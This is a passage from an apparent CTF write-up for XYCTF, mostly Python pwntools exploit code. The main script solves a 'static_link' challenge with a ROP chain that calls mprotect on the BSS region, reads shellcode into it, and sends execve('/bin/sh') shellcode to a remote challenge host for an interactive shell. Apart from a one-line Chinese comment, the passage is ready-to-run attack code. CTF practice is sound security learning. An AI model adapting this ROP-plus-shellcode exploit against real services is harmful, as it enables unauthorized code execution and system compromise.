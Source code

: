 ```python
# debug()
ru(b">>> ")
sl(b"4")
ia()

```

## static_link

> 静态链接 我们直接通过mprotect函数  开一块内存出来执行shellcode即可

```python

import time
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


file_name = "./vuln"
url = "xyctf.top"
port = 33168

elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b main")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
pop_rdi = p64(0x401f1f)
pop_rsi = p64(0x409f8e)
pop_rdx = p64(0x451322)
ret = p64(0x40101a)
read = p64(0x447580 )
mprotect = p64(0x4482C0)
ru(b"static_link? ret2??\n")
bss_addr = 0x4C8000
payload = b"a"*0x28+pop_rdi+p64(bss_addr)+pop_rsi+p64(4096)+pop_rdx+p64(7)+mprotect+pop_rdi+p64(0)+pop_rsi+p64(bss_addr)+pop_rdx+p64(50)+read+p64(bss_addr)
sd(payload)
time.sleep(20)
shellcode =b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
sd(shellcode)
ia()
```
